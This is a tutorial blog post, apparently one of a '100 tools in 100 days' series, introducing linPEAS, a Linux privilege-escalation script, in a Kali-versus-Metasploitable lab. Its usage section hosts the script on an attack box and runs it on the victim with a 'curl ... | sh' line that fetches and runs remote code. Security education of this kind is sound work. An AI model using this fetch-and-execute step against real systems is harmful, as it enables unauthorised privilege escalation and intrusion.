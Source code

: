 ```yaml
---
title:  "Day 27 - linPEAS - 100 tools in 100 days!"
excerpt: "In this post, I will show you the tool linPEAS and how it works."
mathjax: true
layout: post
categories:
    -- github
    -- website
---
```


1 . Introduction
<br>
2 . My Setup
<br>
3 . What is linPEAS?
<br>
4 . Why use linPEAS?
<br>
5 . How to use linPEAS?
<br>
6 . Summary

---

# Moving forward in this series I will start introducing tools outside of Kali Linux or Parrot OS, this is one of many to come!


## This post is designed to introduce you to Carlos Polop's tool linPEAS.

# <span style="color:red">***Disclaimer***</span>: **Please only use linPEAS for professional and educational reasons. Do not use this tool for nefarious or malicious reasons.**

---

### 1. **Introduction**

Welcome to the **twenty-seventh** blog post of 100 tools in 100 days.<br> 

Find **linPEAS** [here](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS).

Find **HackTricks** and the linPEAS guide [here](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist).


PEASS (Privilege Escalation Awesome Script Suite) is a resource developed and maintained Carlos Polop. Below are links to his platforms:<br>
[PEASS](https://github.com/carlospolop/PEASS-ng)<br>
[linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)<br>
[LinkedIn](https://www.linkedin.com/in/carlos-polop-martin)<br>
[GitHub](https://github.com/carlospolop)<br>
[Twitter](https://twitter.com/carlospolopm)<br>
[Discord](https://discord.gg/hRep4RUj7f)<br>

---

### 2. **My Setup**

For running the linPEAS tool, I used Kali Linux in a VMware Workstation 16 Player virtualized environment.

For my vulnerable host, I am using the Metasploitable 2 instance running in a VMWare Workstation 16 Player virtualized environment. 

---

### 3. **What is linPEAS?**

linPEAS is an awesome script developed by Carlos Polop that finds privilege escalation points in Linux. He also developed winPEAS and macPEAS for Windows and Macintosh respectfully.


---

### 4. **Why use linPEAS?**

Imagine you are hacking one of the Linux machines on Hack The Box and you finally are logged in as a user. You obtained the user flag, but still need to get the root flag. Since as a user you likely have some privileges you can use linPEAS to determine how you can escalate your privileges to root. 

Everyone that has done Hack The Box knows that the Root flag is always the one that gives the attacker the most thrill of achieving. 


---

### 5. **How to use linPEAS?**

For this scenario the following are assumed:

1 . I have gained access to a vulnerable Linux device as a non-root user. I will have my access through SSH.

2 . I have enough permissions to run a script as the user on the Linux device.

Please check out the different ways to get the linPEAS script onto the victim device [here](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS#quick-start).

    Step 1:
    I am going to host the linPEAS script on my attack box using a Python3 http server.

    python3 -m http.server 8989

<br>

    Step 2:
    In my SSH shell I am going to use curl to grab the script from my HTTP server.

    curl <IP_ADDRESS OF KALI>:8989/linpeas.sh | sh

<br>

![]()

<br>

![]()


    

### 6. **Summary**



I hope you enjoyed this blog post.

Thanks for reading!<br>

If you have suggestions for what tool to cover next, [contact](mailto:matthew.o.mccorkle@gmail.com) me!
